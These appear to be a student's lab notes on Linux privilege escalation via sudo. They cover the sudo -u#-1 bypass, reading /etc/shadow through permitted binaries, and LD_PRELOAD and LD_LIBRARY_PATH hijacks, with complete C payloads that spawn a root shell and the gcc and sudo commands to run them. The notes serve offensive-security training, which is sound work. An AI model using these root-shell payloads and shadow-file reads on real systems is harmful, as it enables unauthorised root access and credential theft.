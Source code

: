 

# Q. Why SUDO use?

Ans. it used to run any command as per that defined user.

Ex. **sudo -u kali id        -      run id command as kali user**

SUDO not used to run everything as root

# <1.8.28
https://www.sudo.ws/security/advisories/minus_1_uid/

```
sudo -u#-1 id
```

# Commands intended functionalities

Use command for what it is used for

sudo more /etc/shadow

sudo apache2 -f /etc/shadow (give 1st line)

![[Pasted image 20240510224512.png]]


# Shell escaping

general GTFObins thing

# Passing environment variables

![[Pasted image 20240510224723.png]]

https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/

LD_PRELOAD = load custom code first

preload.c
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```bash
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c
```

```bash
sudo LD_PRELOAD=/tmp/preload.so program-name-here (nano,vim etc anything)
```

library_path.c
```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```


Run ldd against the apache2 program file to see which shared libraries are used by the program:

```bash
ldd /usr/sbin/apache2
```

![[image 1 2.png]]

Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library\_path.c:

```bash
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Run apache2 using sudo, while settings the LD\_LIBRARY\_PATH environment variable to /tmp (where we output the compiled shared object):

```bash
sudo LD_LIBRARY_PATH=/tmp apache2
```

## Escalation via Shared Object Injection

* Do strace for such binary and check for files

